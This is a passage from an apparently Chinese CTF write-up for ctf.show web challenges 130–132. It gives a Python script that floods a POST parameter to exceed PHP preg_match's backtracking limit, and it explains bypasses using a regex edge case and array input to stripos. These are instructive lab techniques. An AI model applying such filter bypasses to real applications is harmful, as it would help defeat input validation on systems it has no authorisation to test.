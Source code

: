 **payload(py脚本):**

```
import requests
url="http://07b28eb7-15d4-4250-be72-33a58b73dba1.chall.ctf.show/"
data={
	'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text) 
```

执行后，因为超出了`preg_match`的回溯次数，报错返回false，达到绕过的效果，同时因为POST传入的`f`中有`ctfshow`，第二个判断也被绕过，输出flag

还有两个比较强的姿势…
首先是hint中给出的`f=ctfshow`，因为在第一个正则匹配中

```
if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    } 
```

`.`表示`任意单个字符`，`+`表示`必须匹配1次或多次`，`+?`表示 `重复1次或更多次，但尽可能少重复`

所以在ctfshow前面必须有至少一个字符，才会返回True

还有一种姿势是`数组绕过`，传入数组时，stripos会返回`null`，`null!=false`

payload:

```
POST:f=ctfshow
POST:f[]=a 
```

## web131

考察**正则最大回溯次数绕过**，用上题的第一个姿势(记得把`ctfshow` 改成`36Dctfshow`)

## web132

打开了一个奇怪的界面